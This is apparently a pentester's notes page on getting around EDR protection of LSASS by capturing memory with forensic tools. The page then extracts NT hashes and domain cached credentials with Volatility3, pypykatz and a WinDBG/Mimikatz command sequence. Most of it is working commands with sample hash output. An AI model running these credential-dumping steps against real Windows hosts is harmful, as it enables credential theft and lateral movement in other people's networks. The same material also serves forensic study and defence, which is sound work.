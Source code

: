 ```yaml
---
title: LSASS Dump with forensic tools
---
```


[[notes/windows/lsass-dump]] with memory forensic tools.

Try one of the following tools ([source](https://web.archive.org/web/20220919221915/https://medium.com/@balqurneh/bypass-crowdstrike-falcon-edr-protection-against-process-dump-like-lsass-exe-3c163e1b8a3e)):

- [FTK Imager](https://accessdata.com/product-download/ftk-imager-version-4-7-1), tested
- [Belkasoft Ram Capturer](https://belkasoft.com/ram-capturer)
- [Mandiant Memoryze](https://www.fireeye.de/services/freeware/memoryze.html)
- [WinPmem](https://github.com/Velocidex/WinPmem/)
- Magnet RAM Capture
- `dumpit.exe` (?)

Extract NT hashes of local users and domain-cached credentials of domain users from the raw memory image.

~~~
❯ podman run -it --rm --network host -v .:/workdir --entrypoint sh docker.io/sk4la/volatility3
$ volatility3 -f /workdir/memdump.mem windows.pslist.PsList | grep lsass
1056 1012 lsass.exe 0xce883eec7080 11 - 0 False 2022-09-19 13:12:51.000000 N/A Disabled
$ volatility3 -f /workdir/memdump.mem -o /tmp windows.hashdump.Hashdump  # sam / local users
User  rid  lmhash  nthash
Administrator        500  aad3b435b51404eeaad3b435b51404ee  6ed8e2f07dc16753aaaaaaaaaaaaaaaa
Gast                 501  aad3b435b51404eeaad3b435b51404ee  31d6cfe0d16ae931aaaaaaaaaaaaaaaa
DefaultAccount       503  aad3b435b51404eeaad3b435b51404ee  31d6cfe0d16ae931aaaaaaaaaaaaaaaa
WDAGUtilityAccount   504  aad3b435b51404eeaad3b435b51404ee  b313be82f9144a58aaaaaaaaaaaaaaaa
nobody              1002  aad3b435b51404eeaad3b435b51404ee  bd639192b56530c5aaaaaaaaaaaaaaaa
$ volatility3 -f /workdir/memdump.mem -o /tmp windows.cachedump.Cachedump  # lsa / domain cached credentials
Username  Domain  Domain name  Hash
johndoe   CORP    CORP.COM     dd 9b d2 5d c9 58 87 63 aa aa aa aa aa aa aa aa
janedoe   CORP    CORP.COM     8f 76 2c cc f1 a9 82 7d aa aa aa aa aa aa aa aa
~~~

There seems to be no tool that can extract NT hashes of domain users from raw memory images.
`pypykatz` and `rekall` didn't work.

~~~
❯ podman run -it --rm --network host -v .:/workdir docker.io/remnux/rekall
$ pypykatz lsa rekall -o /tmp/creds.txt /workdir/memdump.mem
...
~~~

Extract LSASS from kernel dump with WinDBG and Mimikatz.

~~~
.load C:\Users\Nobody\Malware\mimilib.dll
.symfix
.reload
!process 0 0 lsass.exe
.process /r /p ffffdb8ed0936080
!mimikatz
~~~

Untested tools:

- [Physmem2profit](https://github.com/fsecurelabs/physmem2profit), dump LSASS by analyzing physical memory remotely
